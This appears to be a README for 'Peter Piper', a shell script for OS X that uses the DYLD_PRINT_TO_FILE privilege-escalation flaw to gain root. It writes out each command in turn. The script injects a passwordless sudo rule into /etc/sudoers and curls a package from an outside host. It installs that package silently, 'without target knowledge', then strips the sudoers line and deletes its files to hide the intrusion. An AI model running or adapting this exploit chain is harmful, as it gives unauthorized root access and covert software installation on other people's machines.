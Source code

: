 # Peter Piper Documentation #

__1. INTRODUCTION__
<br>
This script was made as an alternative to legitimate authentication in Applescript. This script uses a method of exploitation in OS X  called root piping.

<br>

__2. EXPLOIT__
<br>
This exploit uses a vulnerability that was properly fixed in OS X 10.10.5. It’s reference information is [here](https://www.sektioneins.de/en/blog/15-07-07-dyld_print_to_file_lpe.html).
This exploit gives whatever user that executes it admin instantly.

<br>

__3. INSTALL__
<br>
We use `cURL` to get the Java 8 Update 60 package onto the target computer and into a temporary directory, then the `installer` command featured in the OS X command line to install the .pkg we fetched. This is the correct command for this particular task because it skips the graphical installer meaning it can run behind the scenes without target knowledge.

<br>

__4. CLEANUP__
<br>
We first remove the temporary directory used to store the Java package during install, then we use the command `sed` to remove the target from the sudoers list.

<br>

__5. `function KeepSafe { }` & `trap`__
<br>
This is used to ensure the completion of the command if it fails.

<br>

<br>

## IN-DEPTH LOOK AT `function KeepSafe { }` COMMANDS ##

`echo 'echo "$(whoami) ALL=(ALL) NOPASSWD:ALL" >&3' | DYLD_PRINT_TO_FILE=/etc/sudoers newgrp;` - ___Exploit the machine___
<br>
`sudo bash -c ` - ___Create a root bash shell___
<br>
`if [[ $EUID -ne 0 ]]; then echo -e "\033[1mFailed! No root!\033[0m $(exit 1);"` - ___Check if the exploit actually worked, if not, exit the script___
<br>
`sudo mkdir -v /tmp$$;` - ___Make a temporary directory to store the package in___
<br>
`sudo curl -# http://thrifus.co/jump/j8u60.pkg > /tmp$$/j8u60.pkg;` - ___Get the package___
<br>
`sudo installer -verbose -pkg /tmp$$/j8u60.pkg -target LocalSystem;` - ___Install the package___
<br>
`sudo sed -i "" "/NOPASSWD:ALL/d" /etc/sudoers;` - ___Remove the line allowing root access without a password___
<br>
`rm -rfv /tmp$$;` - ___Remove the temporary directory___
